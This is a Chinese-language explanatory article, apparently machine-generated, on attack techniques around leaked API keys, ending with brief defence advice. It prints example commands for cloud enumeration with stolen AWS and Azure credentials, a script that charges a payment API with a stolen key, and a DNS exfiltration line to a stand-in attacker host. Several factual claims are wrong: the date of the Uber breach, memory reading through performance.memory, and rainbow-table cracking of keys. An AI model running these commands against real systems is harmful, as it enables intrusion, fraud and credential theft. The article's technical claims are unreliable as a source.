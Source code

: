 

### API密钥泄露检测中的攻击技术解析（Web安全方向）

API密钥作为现代应用身份验证的核心凭证，其泄露可能导致数据泄露、服务滥用、资产损失等重大安全风险。在Web安全领域，攻击者已形成成熟的攻击链，以下从信息收集、漏洞利用、横向渗透三个维度解析常见攻击手法。

---

#### 一、信息收集阶段的密钥泄露攻击

**1. 代码仓库与版本控制扫描**  
攻击者使用自动化工具（如truffleHog、GitGuardian）扫描GitHub、GitLab等平台，通过以下方式捕获密钥：
- **历史提交记录分析**：利用`git log -p`检索含密钥的已删除代码
- **正则表达式匹配**：针对AWS、Google Cloud等厂商密钥格式（如`AKIA[0-9A-Z]{16}`）进行模式匹配
- **误提交配置文件**：如`.env`文件、`config.yaml`中的硬编码密钥

**案例**：2021年Uber数据泄露事件中，攻击者通过承包商GitHub仓库获取AWS密钥，导致内部系统沦陷。

**2. 客户端代码逆向工程**  
Web应用前端（JavaScript/WebAssembly）常因以下问题泄露密钥：
- **前端硬编码**：API密钥直接写入JavaScript文件（如`apiKey: "sk_live_123456"`）
- **调试接口暴露**：Vue.js/React开发模式下的`sourceMap`文件泄露未混淆代码
- **WebAssembly反编译**：使用工具（如wasm-decompile）提取二进制文件中的敏感字符串

**工具链**：Chrome DevTools网络抓包 + Beautifier代码美化 + 正则表达式批量扫描。

**3. 日志与错误信息泄露**  
Web服务的不当配置导致密钥通过以下途径暴露：
- **调试日志公开**：Elasticsearch/Kibana未授权访问泄露含API调用的日志
- **错误信息详情**：如500错误页返回`{"error": "Invalid API key: sk_prod_abcd"}` 
- **服务元数据API**：AWS EC2的`169.254.169.254`元数据接口被SSRF攻击利用

**防御突破**：攻击者常组合使用`ffuf`目录爆破与`nuclei`漏洞模板扫描此类端点。

---

#### 二、传输与存储环节的中间人攻击

**1. 未加密信道嗅探**  
HTTP明文传输的API请求可被以下方式截获：
- **公共WiFi流量捕获**：使用Wireshark抓取含`Authorization: Bearer`头的请求
- **恶意浏览器扩展**：伪装成工具类插件窃取`localStorage`中的密钥
- **CDN日志泄露**：第三方CDN服务商配置错误导致请求日志外泄

**2. 浏览器侧缓存攻击**  
利用Web存储机制残留数据：
- **IndexedDB查询**：通过浏览器控制台执行`indexedDB.open("apiCache")`读取缓存
- **Service Worker拦截**：注册恶意worker劫持`fetch`事件获取密钥
- **内存残留读取**：通过`performance.memory`分析内存快照中的敏感字符串

**3. 第三方服务渗透**  
通过供应链攻击获取密钥：
- **npm包恶意代码注入**：伪装成合法库（如`aws-sdk-phishing`）上传到公共仓库
- **CI/CD管道入侵**：篡改GitHub Actions脚本导出`ENV`变量
- **OAuth令牌劫持**：利用`redirect_uri`参数漏洞窃取第三方授权令牌

---

#### 三、密钥泄露后的横向利用技术

**1. 权限升级与云环境渗透**  
攻击者通过API密钥执行云服务枚举：
```bash
# AWS CLI身份验证测试
AWS_ACCESS_KEY_ID=AKIA... AWS_SECRET_ACCESS_KEY=... aws sts get-caller-identity

# Azure资源枚举
az login --service-principal -u <client-id> -p <secret> --tenant <tenant-id>
az vm list
```

**2. API滥用自动化**  
使用Postman+Newman或Python脚本批量攻击：
```python
import requests
headers = {"Authorization": "Bearer sk_live_123"}
response = requests.post("https://api.target.com/v1/charge", 
                         json={"amount":9999}, headers=headers)
```

**3. 隐蔽持久化技术**  
- **密钥伪装**：将密钥编码为Base64/Hex存储在Cookie或自定义Header中
- **动态密钥生成**：通过时间戳+HMAC算法生成临时签名绕过静态检测
- **DNS隧道外传**：使用`dig @1.2.3.4 +short key.api.attacker.com`将密钥分段传输

---

#### 四、新型攻击趋势

**1. 深度学习辅助的密钥预测**  
使用GPT-3等模型分析代码注释、变量名推测密钥格式（如识别代码中的`region=us-east-1`推测AWS密钥）

**2. 密钥组合爆破攻击**  
针对短寿命密钥的熵值缺陷，使用Rainbow Table加速碰撞：
- 已知Access Key ID前缀（如AKIA）时，暴力破解剩余12位字符
- 结合已知员工邮箱生成字典（如`john.doe@company.com` → `jd_company_2023`）

**3. 区块链隐匿交易**  
通过智能合约自动交易泄露的密钥，实现匿名化变现：
```solidity
contract KeyMarket {
   mapping(address => string) public keys;
   function sellKey(string memory apiKey) public payable {
       keys[msg.sender] = apiKey;
   }
}
```

---

#### 防御建议
1. **动态密钥替代方案**：使用OAuth 2.0/JWT等短期令牌
2. **客户端零信任策略**：实施HMAC请求签名+时间窗验证
3. **自动化检测集成**：在CI/CD管道部署ggshield等扫描工具
4. **最小权限原则**：为每个密钥绑定IP白名单与API速率限制

当前攻击技术已形成工具化、智能化、隐蔽化的完整生态，企业需从密钥生命周期管理的角度构建多层防御体系。

---

*文档生成时间: 2025-03-13 13:33:59*












